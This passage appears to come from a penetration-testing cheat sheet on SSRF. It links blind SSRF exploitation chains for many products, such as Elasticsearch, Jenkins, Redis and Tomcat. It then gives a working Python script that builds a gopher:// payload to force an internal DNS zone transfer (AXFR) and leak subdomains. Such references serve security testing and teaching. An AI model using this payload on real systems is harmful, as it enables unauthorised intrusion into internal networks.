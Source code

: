 ## Blind SSRF

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read. 

Use an SSRF chain to gain an Out-of-Band output.

From https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/ / https://github.com/assetnote/blind-ssrf-chains

**Possible via HTTP(s)**
- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
- [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
- [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**
- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)


## SSRF to AXFR DNS

Query an internal DNS resolver to trigger a full zone transfer (AXFR) and exfiltrate a list of subdomains.

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```
